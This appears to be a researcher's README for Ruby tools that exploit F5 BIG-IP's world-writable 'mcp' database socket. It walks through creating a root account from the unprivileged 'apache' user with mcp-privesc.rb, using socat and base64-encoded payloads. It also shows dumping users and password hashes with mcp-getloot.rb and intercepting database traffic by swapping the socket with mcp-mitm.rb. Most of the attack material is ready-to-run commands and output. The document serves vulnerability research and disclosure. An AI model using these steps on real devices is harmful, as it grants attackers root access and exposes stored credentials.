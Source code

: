 This isn't really done or ready yet, but I wanted to get the code checked in.

This basically implements F5's database protocol, "mcp", which operates through
a UNIX domain socket. That means that you need a shell on the F5 device before
you can use any of these. You'll typically forward the output from a script
to `/var/run/mcp` using `socat`, then feed the response into `mcp-parser.rb`.
More details below.

A quick summary of the scripts:

* `mcp-getloot.rb` - Generates a message that will dump users and variables
* `mcp-privesc.rb` - Generates a message that will create a user account
* `mcp-parser.rb` - Parses mcp messages that arrive on stdin
* `mcp-mitm.rb` - Eavesdrop mcp messages on a target host (requires passwordless ssh to root to be configured)
* `mcp-builder.rb` - A library for building mcp messages (you don't need to use directly)

# What is mcp?

MCP is a proprietary (AFAICT) database used by F5 BigIP. It's accessed through
`/var/run/mcp`, a UNIX domain socket with 0777 permissions (ie, any user can
access it).

The protocol is TLV-style, which a whole bunch of types (over 41,000). They're
all listed in [mcp-objects.txt](/mcp-objects.txt).

I implemented a parser that you can find in [mcp-parser.rb](/mcp-parser.rb),
and you can find a bunch of different messages in
[mcp-parser-tests.rb](/mcp-parser-tests.rb).

I also created a builder, [mcp-builder.rb](/mcp-builder.rb), although it's not
really designed to be easy to use. We do have a pre-defined function that
creates an MCP packet that creates a root-level user account, which is pretty
cool. You can use `mcp-privesc.rb` to create that packet.

# Building and Sending MCP Messages

To communicate with MCP directly, you'll generally use `socat`. The code in
`mcp-builder.rb` can create packets, though isn't designed to be run directly.
The scripts you'll probably want to use directly are:

* `mcp-getloot.rb` - to get users and configuration settings
* `mcp-privesc.rb` - to add a new root-level account
* `mcp-parser.rb` - to parse the response (on stdin)

To use one of the query scripts, execute it and find a way to send the output
into the UNIX socket on the target. Here's an example where we gzip +
base64-encode the output from `mcp-privesc.rb`:

```
$ ruby ./mcp-privesc.rb blogtest MyFunPW | gzip | base64 -w0
Attempting to create a crypt-sha512 hash of the password
Writing an `mcp` message to stdout that'll create an account: blogtest / $6$vdznqfyc$q9LEJmhlDZK3HQY0L0WuiKfXaKJtQmOY7lIkMS/IxftTmZs.PdlYXxmxjRQ4f529gl13NsqWlZdd/eksunJT01
Send it to the target using: socat -t100 - UNIX-CONNECT:/var/run/mcp < mcpmessage.bin

H4sIAAAAAAAAA2NgYBBnQAICGgy8QIpfQJOBH0izM7AmpuRm5oFkkJVx54CVcajaMbBChSxR5KPA8oYCLGBaU4ANbBwXA0dSTn56SWpxiQA7RKcAB8yiaMecnFgg8yAWg3ZyC4LpjdxC6AbJnwSLcDCwOefn5ubnCcZDDOaWBItzM3DqJ2Xm6SclFmdwi4ClGLmFwVIpDEkqZiplKVV5hWmVySqFlj6uXrkZOS5R3sYegZEGPgbhpZneaRGJ3l4lgbn+keY5ntm+wfqeFWklIblRxXoBKTmRERW5FVlBgSZppkaW6TmGxn7FheE5USkp+qnZxaV5XiEGhmCnIXsoD+wRBgAyeb1ueQEAAA==
```

Then we can copy and paste it to an ssh session on the target, where it's sent
to the UNIX socket (note that we're doing this as a non-root user as a
demonstration that it's possible):

```
$ whoami
apache

$ echo -ne 'H4sIAAAAAAAAA2NgYBBnQAICGgy8QIpfQJOBH0izM7AmpuRm5oFkkJVx54CVcajaMbBChSxR5KPA8oYCLGBaU4ANbBwXA0dSTn56SWpxiQA7RKcAB8yiaMecnFgg8yAWg3ZyC4LpjdxC6AbJnwSLcDCwOefn5ubnCcZDDOaWBItzM3DqJ2Xm6SclFmdwi4ClGLmFwVIpDEkqZiplKVV5hWmVySqFlj6uXrkZOS5R3sYegZEGPgbhpZneaRGJ3l4lgbn+keY5ntm+wfqeFWklIblRxXoBKTmRERW5FVlBgSZppkaW6TmGxn7FheE5USkp+qnZxaV5XiEGhmCnIXsoD+wRBgAyeb1ueQEAAA==' | base64 -d | gunzip - | socat -t100 - UNIX-CONNECT:/var/run/mcp | gzip | base64 -w0
H4sIAB91UGMAA2NgYJBjQALcIQy8QEqMO5SBFcwPZ+AR0OCOAJKaYAUEVXNHgVRzCzIwAABM8W1YXAAAAA==

bash-4.2$ su blogtest
Password: 
[...]

[blogtest@localhost:NO LICENSE:Standalone] config # whoami
root
```

We can also parse the response we got using `mcp-parser.rb`:

```
$ echo -ne 'H4sIAB91UGMAA2NgYJBjQALcIQy8QEqMO5SBFcwPZ+AR0OCOAJKaYAUEVXNHgVRzCzIwAABM8W1YXAAAAA==' | base64 -d | gunzip - | ruby ./mcp-parser.rb 
result (structure [22 bytes]):
 result_code (ulong) = 0x00000000 (0)
 result_operation (tag) = user_authenticated
 result_type (tag) = user_authenticated_name
result (structure [22 bytes]):
 result_code (ulong) = 0x00000000 (0)
 result_operation (tag) = create
 result_type (tag) = userdb_entry
```

You can, of course, do it all as a single command; here how you can use
`mcp-getloot.rb`:

```
$ ruby ./mcp-getloot.rb | ssh root@10.0.0.162 socat -t100 - UNIX-CONNECT:/var/run/mcp | ruby ./mcp-parser.rb | head -n30
Writing an `mcp` message to stdout that'll query for interesting stuff
Send it to the target using: socat -t100 - UNIX-CONNECT:/var/run/mcp < mcpmessage.bin

query_reply (structure [949 bytes]):
 userdb_entry (structure [233 bytes]):
  userdb_entry_name (string [6 bytes]) = "root"
  trunk_virtual_mbr_transaction_id (ulong) = 0x00000001 (1)
  userdb_entry_partition_id (string [8 bytes]) = "Common"
  fw_analytics_settings_dns_collect_dst_i... (long) = 0xffffffff (4294967295)
  userdb_entry_is_system (ulong) = 0x00000001 (1)
  userdb_entry_oldpasswd (string [2 bytes]) = ""
  userdb_entry_shell (string [11 bytes]) = "/bin/bash"
  userdb_entry_gecos (string [6 bytes]) = "root"
  userdb_entry_is_crypted (ulong) = 0x00000001 (1)
  userdb_entry_passwd (string [100 bytes]) = "$6$UIHYzBX6$UClrSPt1o/G2meP27zBzRJnAjWEIkhNEQzqDYwn5gtnoKqFeGhnJveUUHGavaPU1FO9eif2pnADjDN/5YgMI3/"
  userdb_entry_description (string [2 bytes]) = ""
  userdb_entry_object_id (ulong) = 0x00002a70 (10864)
 userdb_entry (structure [251 bytes]):
  userdb_entry_name (string [7 bytes]) = "admin"
[...]
db_variable (structure [224 bytes]):
  db_variable_name (string [38 bytes]) = "platform.diskmonitor.freelast.vmdisk"
  db_variable_transaction_id (ulong) = 0x0000004b (75)
  db_variable_scf_config (string [7 bytes]) = "false"
  db_variable_maximum (string [2 bytes]) = ""
  db_variable_minimum (string [2 bytes]) = ""
  db_variable_data_type (string [9 bytes]) = "integer"
  db_variable_sync_type (string [18 bytes]) = "private_internal"
  db_variable_default (string [3 bytes]) = "0"
  db_variable_value (string [3 bytes]) = "0"
  db_variable_display_name (string [38 bytes]) = "Platform.DiskMonitor.FreeLast.vmdisk"
  db_variable_object_id (ulong) = 0x0000e705 (59141)
  db_variable_enumerated (array [6 bytes]): Array data: 000f00000000
```

# Connection Eavesdropping

I also wrote a tool to inspect/log database queries in real time -
[mcp-mitm.rb](/mcp-mitm.rb). This isn't an exploit, it's just an analysis tool
that requires a root login. Effectively, it moves `/var/run/mcp` and replaces
it with a socket that we control, then parses all the messages going through it.

To run it:

* Ensure the server isn't being used for anything important - this is somewhere between "destructive" and "interrupty" because we yoink the database socket (it does try to fix it after!)
* Ensure the F5 Big-IP host can connect back to you on any two ports (1234 and 1235 by default)
* Ensure you can `ssh root@<target>` with no password or other input (or edit the code and turn off `DO_SETUP`)

Pretty much any potential "damage" is fixed with a reboot, since it creates the
socket at boot, but you probably don't wanna do that on prod.

Anyway, execute with no args to get the usage, then fill in the important IP
addresses:

```
$ ruby ./mcp-mitm.rb
Usage: ruby ./mcp-mitm.rb <your ip> <target ip> [listen port 1] [listen port 2]
[...]

$ ruby ./mcp-mitm.rb 10.0.0.179 10.0.0.162

$ ruby ./mcp-mitm.rb 10.0.0.179 10.0.0.162
Configuration (edit the script to change, this is a PoC!):

Your IP: 10.0.0.179
Target IP: 10.0.0.162
Listening port 1: 1234
Listening port 2: 1235
SSH into the target to set things up: true
  (Make sure you can ssh into the host as root with no password)
  (Yes yes, I know it's a PoC!)
SSH'ing into the server to set things up
Ready!
```

If you wait around (or do stuff on the server), you'll see sessions:

```
Received session @ #<TCPSocket:0x000000000170d630> <--> #<TCPSocket:0x000000000170d658>

user_authenticated (structure [15 bytes]):
 user_authenticated_name (string [7 bytes]) = "admin"

start_transaction (structure [8 bytes]):
 start_transaction_load_type (ulong) = 0x00000000 (0)
[...]
```

Ctrl-c will stop it, and fix the socket:

```
^CSSH'ing into the server to fix things
Session 1 closed?
Ending thread
Ending thread
Traceback (most recent call last):
        3: from ./mcp-mitm.rb:149:in `<main>'
        2: from ./mcp-mitm.rb:149:in `loop'
        1: from ./mcp-mitm.rb:151:in `block in <main>'
./mcp-mitm.rb:151:in `accept': Interrupt
```

And that's it!
